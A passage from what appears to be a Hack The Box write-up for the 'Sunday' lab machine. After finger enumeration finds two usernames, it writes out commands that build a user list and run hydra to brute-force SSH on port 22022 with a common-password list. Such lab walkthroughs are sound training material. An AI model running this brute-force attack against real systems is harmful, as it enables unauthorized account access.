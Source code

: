 ![finger1](./sunday/finger1.png)

It looks like there are 2 unique usernames `sunny` and `sammy`. Try a bruteforce, but using common passwords from seclists:

```bash
echo 'sunny'  > users.txt
echo 'sammy' >> users.txt
cp /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt .
hydra -V -f -L users.txt -P 10k-most-common.txt -s 22022 ssh://10.10.10.76
```
